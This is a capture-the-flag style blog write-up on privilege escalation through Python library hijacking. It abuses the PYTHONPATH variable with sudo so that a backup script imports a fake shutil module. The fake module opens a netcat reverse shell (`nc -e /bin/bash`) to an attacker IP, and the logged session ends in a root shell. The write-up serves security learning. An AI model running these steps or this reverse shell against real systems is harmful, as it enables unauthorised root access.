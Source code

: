```yaml
---
title: Python Library Hijacking
author: 4m0r
date: 2020-08-01 20:00:00 +0530
excerpt: A writeup on how I hijacked a python library for privilege escalation and owned a machine.
thumbnail: /assets/img/posts/pyLibHijack/library.jpg
categories: [Tutorial]
tags: [Python, PYTHONPATH, Library Hijacking, Privilege Escalation]
---
```


![Info](/assets/img/posts/pyLibHijack/library.png)

# Scenario
One time I gained *user* shell on a machine and started poking around for a privilege escalation vector. I noticed that
the user had **sudo** privilege to run a bash script. Enumerating the script, I noticed that it executes a *Python* 
script, ***backup.py***. Therefore, any (malicious) code injected into the python script gets executed with **root**
privileges.

# Limitations
Unfortunately, write access for both the bash and python script files are restricted to *root* user and *admin* group.

# Library Hijacking
Enumerating the python script offered another vital vector. The contents of the python script read as follows.
```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```
As seen from the code, the script imports a module called *make_archive* from the **shutil** library. An important thing
 to understand about Python is that, it imports modules by searching for them in pre-defined directories, in an order of 
priority and uses the first occurrence.

## Abusing Python Library Path with insecure permissions
The first thing I did was to find the library paths and their priority. This can be enumerated with the following command.
```shell
python -c 'import sys; print("\n".join(sys.path))'
```
The command echoed the library paths and they were compared against the actual path of *shutil.py* to identify an
injection point.
```shell 
waldo@admirer:/opt/scripts$ python -c 'import sys; print("\n".join(sys.path))'
/usr/lib/python2.7
/usr/lib/python2.7/plat-x86_64-linux-gnu
/usr/lib/python2.7/lib-tk
/usr/lib/python2.7/lib-old
/usr/lib/python2.7/lib-dynload
/usr/local/lib/python2.7/dist-packages
/usr/lib/python2.7/dist-packages

waldo@admirer:/opt/scripts$ find /usr -type f -name shutil.py
/usr/lib/python3.5/shutil.py
/usr/lib/python2.7/shutil.py
```
Theoretically, if the user has write access to */usr/lib/python\[version]*, a duplicate library with the same name as 
the original and with malicious content can be placed there. Therefore, when the backup script is executed, this 
duplicate library and module gets presented as the first occurrence and subsequently gets executed. <br>
Unfortunately, the user I had access as, did not had write access on any of these directories. So I moved on to the 
next method.

## Abusing PYTHONPATH environment variable
PYTHONPATH[^f1] is an environment variable with which additional directories to search for Python modules can be
set. With this set, Python can be manipulated into directing the search for modules to a preferred location. To that 
effect, I then created a new directory, called **shutil** on the user's home directory. A malicious library file,
 **shutil.py**, to mimic the actual *shutil* library was placed on this new directory. The contents of the file 
 **shutil.py** is as follows.
```python
import os

def make_archive (aaa, bbb, ccc):

    os.system ("/bin/nc -e '/bin/bash' 10.10.10.9 9095")
```
Note that since we are mimicking the actual **make_archive** module, the number of arguments for this fake module should
 be the same as the original or else the function call from *backup.py* will fail with a *TypeError*. When the bash 
script is executed with sudo, the malicious **make_archive** is executed with root privileges, resulting in an elevated
 reverse shell. 

In my PenTest scenario, I gained reverse shell with PYTHONPATH as shown below.
```shell 
---TARGET---
waldo@admirer:~/shutil$ sudo PYTHONPATH=/home/waldo/shutil /opt/scripts/admin_tasks.sh
---ATTACKER---
[_4m0r@manjaro Admirer]$ nc -nvlp 9095
Connection from 10.10.10.10:50634
python -c "import pty;pty.spawn('/bin/bash');"
root@admirer:/home/waldo/shutil# id
id
uid=0(root) gid=0(root) groups=0(root)
```

# Takeaway
During privilege escalation enumeration, if you were to come across a Python script with elevated execution privileges
and uses misconfigured python libraries, it can be leveraged to a *root* shell by hijacking the library path.

# Resources
[^f1]:[PYTHONPATH](https://docs.python.org/3/using/cmdline.html#environment-variables)